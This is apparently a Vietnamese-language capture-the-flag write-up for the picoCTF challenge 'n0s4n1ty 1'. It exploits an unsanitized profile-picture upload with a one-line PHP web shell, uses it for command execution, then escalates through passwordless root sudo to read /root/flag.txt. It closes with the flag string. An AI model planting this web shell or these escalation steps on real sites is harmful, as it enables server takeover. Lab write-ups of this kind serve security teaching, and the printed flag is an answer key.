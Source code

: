 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

> `File upload was not sanitized`
> `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)

---
## 🚩 **Exploit: Unsanitized File Upload → Web Shell**

**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.**

Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)
> ``User www-data`` → người dùng hiện tại.
> 
> ``may run the following commands`` → được phép chạy...
> 
> ``(ALL)`` → với tư cách bất kỳ user nào (bao gồm cả root).
> 
> ``NOPASSWD`` → không cần nhập mật khẩu khi dùng sudo.
> 
> ``ALL`` → chạy được tất cả lệnh.
>

Kết quả cho ta biết : User hiện tại có thể thực thi mọi lệnh dưới quyền root mà không cần mật khẩu.

Sử dụng câu lệnh : `` sudo ls /root `` 

Trả lại kết quả là : `` flag.txt ``

Tiếp sau đó dùng câu lệnh : `` sudo cat /root/flag.txt `` để đọc file ``flag.txt`` và nhận được flag

### Flag : `` picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0} ``
